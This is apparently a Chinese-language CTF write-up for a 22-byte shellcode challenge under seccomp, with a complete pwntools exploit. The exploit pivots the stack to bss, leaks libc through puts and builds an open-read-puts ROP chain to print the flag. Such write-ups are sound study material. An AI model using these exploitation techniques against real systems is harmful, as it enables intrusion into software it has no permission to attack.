

# ShellcodeMaster 

*You must be a shellcode master*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules



## 解题思路

只给了22字节，并且禁了execve和execveat，且我们对mmap的内存只有执行权限，不能写不能读，
因此拿shell、orw、read shellcode回内存、执行32位execve都不现实，但是程序**没有开PIE**！
那么我们可以将内容读到bss上，然后栈迁移过去

这里我实现了我的第一种思路：先把putsPlt、putsGot写上，leak libc，然后跳回到`0x2333000`，
再次读入，这样就有了gadgets和函数地址，接着在bss上读orw，最后栈迁移过去就能打印出flag  
其中虽然题目没有给libc，但是借助LibcSearcher，我们可以借泄露出来的libc地址判断libc版本，
这样就可以找到libc了

还有两种思路，我没有实现，但应该是打的通的

思路2：由于shellcode所在的地址是已知的，且22字节对于read到bss上这一需求是过多的，
所以我们还可以在shellcode里加上`pop rdi`等gadget，这样就避免了原来没有gadget所致的难题，
最后只要一口气栈迁移到bss上leak，打orw即可，可以减少一次跳回shellcode

思路3：由于二进制程序是`Partial RELRO`的，那么在shellcode里搓好gadget之后还可以栈迁移到bss上，
打ret2dlresolve，这样甚至连libc都不需要leak，直接一步到位，orw打印flag

## EXPLOIT

```python
from pwn import *
import LibcSearcher
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode2')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *0x4013f6')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('106.14.57.14', 31751)
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF('./shellcode2')
    bssHigh = 0x404800
    mmap = 0x2333000
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']
    readPlt = elf.plt['read']

    # payload 1, read on bss and stack pivot to bss
    sh.recvuntil(b'0x16')
    code = f'''
    mov esp,{hex(bssHigh)}
    xor eax,eax
    xor edi,edi
    push rsp
    pop rsi
    push r14
    pop rdx
    syscall
    mov edi,{hex(putsGot)}
    ret
    '''
    sh.send(asm(code))

    # payload 2, leak libc
    sh.recvuntil(b'Love!\n')
    sh.sendline(p64(putsPlt) + p64(mmap))

    putsAddr = u64(sh.recv(6) + b'\0\0')
    # libc = LibcSearcher.LibcSearcher('puts', putsAddr & 0xfff)
    # libc.dump('system') # [+] ubuntu-glibc (id libc6_2.35-0ubuntu3.6_amd64) be choosed.
    libcBase = putsAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    gadgets = ROP(libc)
    popRdi = libcBase + gadgets.rdi.address
    popRsi = libcBase + gadgets.rsi.address
    popRdxRbx = libcBase + gadgets.rdx.address
    sleep(0.5)

    # payload 3, run shellcode again, put orw on bss, and stack pivot again
    offset = 16 * 8 # 16x addr to pop/jmp
    sh.sendline(p64(popRdi) + p64(bssHigh + offset) + p64(popRsi) + p64(0) + p64(openAddr) +
                p64(popRdi) + p64(3) + p64(popRsi) + p64(bssHigh + offset + 8) +
                p64(popRdxRbx) + p64(0x50) + p64(0) + p64(readPlt) +
                p64(popRdi) + p64(bssHigh + offset + 8) + p64(putsPlt) + b'./flag\0')

    sh.interactive()
```
